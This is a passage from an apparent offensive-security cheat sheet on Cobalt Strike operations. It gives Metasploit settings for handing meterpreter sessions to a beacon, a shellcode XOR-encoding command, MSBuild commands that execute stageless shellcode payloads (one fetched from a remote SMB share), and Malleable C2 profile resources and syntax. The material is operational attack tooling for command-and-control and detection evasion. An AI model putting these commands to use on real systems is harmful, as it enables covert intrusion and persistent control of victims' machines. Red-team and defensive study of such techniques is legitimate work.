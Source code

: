 ### Metasploit compatibility

* Payload: windows/meterpreter/reverse_http or windows/meterpreter/reverse_https
* Set LHOST and LPORT to the beacon
* Set DisablePayloadHandler to True
* Set PrependMigrate to True
* exploit -j

### Custom Payloads

https://ired.team/offensive-security/code-execution/using-msbuild-to-execute-shellcode-in-c

```powershell
* Attacks > Packages > Payload Generator 
* Attacks > Packages > Scripted Web Delivery (S)
$ python2 ./shellcode_encoder.py -cpp -cs -py payload.bin MySecretPassword xor
$ C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe C:\Windows\Temp\dns_raw_stageless_x64.xml
$ %windir%\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe \\10.10.10.10\Shared\dns_raw_stageless_x86.xml
```

## Malleable C2

List of Malleable Profiles hosted on Github
* Cobalt Strike - Malleable C2 Profiles https://github.com/xx0hcd/Malleable-C2-Profiles
* Cobalt Strike Malleable C2 Design and Reference Guide https://github.com/threatexpress/malleable-c2
* Malleable-C2-Profiles https://github.com/rsmudge/Malleable-C2-Profiles
* SourcePoint is a C2 profile generator https://github.com/Tylous/SourcePoint

Example of syntax

```powershell
set useragent "SOME AGENT"; # GOOD
set useragent 'SOME AGENT'; # BAD
prepend "This is an example;";

# Escape Double quotes
append "here is \"some\" stuff";
# Escape Backslashes
append "more \\ stuff";
# Some special characters do not need escaping
prepend "!@#$%^&*()";
```

Check a profile with `./c2lint`.
* A result of 0 is returned if c2lint completes with no errors
* A result of 1 is returned if c2lint completes with only warnings
* A result of 2 is returned if c2lint completes with only errors
* A result of 3 is returned if c2lint completes with both errors and warning

## Files
